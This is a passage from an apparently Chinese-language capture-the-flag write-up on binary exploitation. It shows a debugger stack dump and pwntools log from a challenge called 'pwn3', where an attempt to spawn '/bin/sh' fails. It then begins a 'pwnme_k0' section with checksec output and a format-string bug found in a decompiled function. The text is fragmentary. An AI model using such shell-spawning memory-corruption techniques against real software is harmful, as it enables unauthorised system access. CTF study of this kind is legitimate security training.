 	0x8048765 <show_dir+126> jne show_dir+55 <0x804871e>

	─────────────────────────────────────────────────────────[ STACK]──────────────────────────────────────────────────────────

	00:0000│ esp 0xffc13390 —▸ 0xffc133a4 ◂— '/bin/shaaaa'

	01:0004│ 0xffc13394 ◂— 0x400

	02:0008│ 0xffc13398 ◂— 0x1

	03:000c│ 0xffc1339c —▸ 0xf7fd43ec (check_match+364) ◂— add esp, 0x10

	04:0010│ 0xffc133a0 —▸ 0xf7de6fb0 ◂— inc edi /* 'GLIBC_PRIVATE' */

	05:0014│ 0xffc133a4 ◂— '/bin/shaaaa'

	06:0018│ 0xffc133a8 ◂— '/shaaaa'

	07:001c│ 0xffc133ac ◂— 0x616161 /* 'aaa' */

	[*] Switching to interactive mode

	sh: 1: /bin/shaaaa: not found

	ftp>$

	$ ls

	[*] Got EOF while reading in interactive

	$ id

	[*] Process './pwn3' stopped with exit code 1 (pid 3287)

	[*] Got EOF while sending in interactive
	
	
	
	
# **pwnme_k0**

	gdb-peda$ checksec

	CANARY : disabled

	FORTIFY : disabled

	NX : ENABLED

	PIE : disabled

	RELRO : FULL

查保护，就开了NX

Iad打开，在sub_400B07函数里面发现了格式化字符串

	int __fastcall sub_400B07(char format, __int64 a2, __int64 a3, __int64 a4,__int64 a5, __int64 a6, char formata, __int64 a8, __int64 a9)

	{

		write(0, "Welc0me to sangebaimao!n", 0x1AuLL);
